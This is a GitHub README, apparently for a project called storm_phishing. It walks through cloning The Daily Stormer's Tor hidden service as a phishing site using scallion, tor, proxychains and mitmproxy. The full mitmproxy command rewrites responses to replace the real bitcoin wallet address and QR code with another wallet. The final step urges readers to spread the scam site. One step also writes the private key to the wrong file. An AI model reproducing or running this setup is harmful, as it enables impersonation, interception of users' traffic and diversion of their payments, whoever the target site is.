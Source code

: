# storm_phishing

Quick scripts to scam The Daily Stormer dark web site.

## Tools

### scallion

[Scallion](https://github.com/lachesis/scallion) lets you create vanity .onion
addresses. You'll need it to create a key pair for a dstormer--------.onion
address.

### tor

[tor](https://www.torproject.org/) hidden services let users publish web sites
and other services without needing to reveal the location of the site. You need
it to run the fake/scam dstormer--------.onion service.

### mitmproxy

[mitmproxy](https://mitmproxy.org/) is an interactive console program that 
allows traffic flows to be intercepted, inspected, modified, and replayed.
You need it to send requests to the real dstormer site, and then intercept
and/or change the contents of the responses.

### proxychains4

[proxychains](https://github.com/rofl0r/proxychains-ng) Redirects the HTTP 
connections from mitmproxy through tor, so they can reach the real dstormer
.onion site.

## Installation (Ubuntu)
```
sudo apt-get update
sudo apt-get install make gcc tor mitmproxy
git clone https://github.com/rofl0r/proxychains-ng.git
git clone https://github.com/storm-phisher/storm_phishing.git

cd proxychains-ng.git
./configure --prefix=/usr --sysconfdir=/etc
make && sudo make install && sudo make install-config
```

## Steps

1. Use scallion to generate a dstormer--------.onion hostname and key.

  ```
mono scallion/bin/Debug/scallion.exe -d 1 dstormer
...
<XmlMatchOutput>
  <Hash>dstormer--------.onion</Hash>
  <PrivateKey>-----BEGIN RSA PRIVATE KEY-----
...
-----END RSA PRIVATE KEY-----
</PrivateKey>
  <PublicModulusBytes>...</PublicModulusBytes>
  <PublicExponentBytes>...</PublicExponentBytes>
</XmlMatchOutput>
  ```

2. Make a directory for the scam hidden service.

  ```
sudo mkdir -m 700 /var/lib/tor/hidden_service
chown -R ubuntu:ubuntu /var/lib/tor
  ```

3. Put the `<Hash>` value into `hostname` file. E.g.,

  ```
echo "dstormer--------.onion" > /var/lib/tor/hidden_service/hostname
  ```

4. Put the `<PrivateKey>` value into `private_key` file. E.g.,

  ```
echo "-----BEGIN RSA PRIVATE KEY-----...-----END RSA PRIVATE KEY-----" > /var/lib/tor/hidden_service/hostname
  ```

5. Copy `torrc` from this repo to `/etc/tor/torrc`.

  ```
sudo cp torrc /etc/tor/torrc
  ```

6. Run `proxychains` and whatever `mitmproxy` script you want (E.g., this one replaces TDS bitcoin wallet with bitcoin wallet for tunapanda.org):

  ```
proxychains4 mitmproxy -p 20080 -R http://dstormer6em3i4km.onion --anticache -s "replace_string.py 19m9yEChBSPuzCzEMmg1dNbPvdLdWA59rS 1CU5YgjquupDw6UeXEyA9VEBH34R7fZ19b" --replace ":~hq .:<<<your-hostname>>>.onion:dstormer6em3i4km.onion" --replace ":~s:wp-content/uploads/2014/09/bitcoin-qr-code-daily-stormer.jpg:https://raw.githubusercontent.com/storm-phisher/storm_phishing/master/tunapanda-btc-qr.png"
  ```

7. Finally, run `tor` to run your dstormer--------.onion scam site.

8. Visit your dstormer--------.onion site and it should be working.

9. Be sure to share your scam site in whatever creative ways you like.
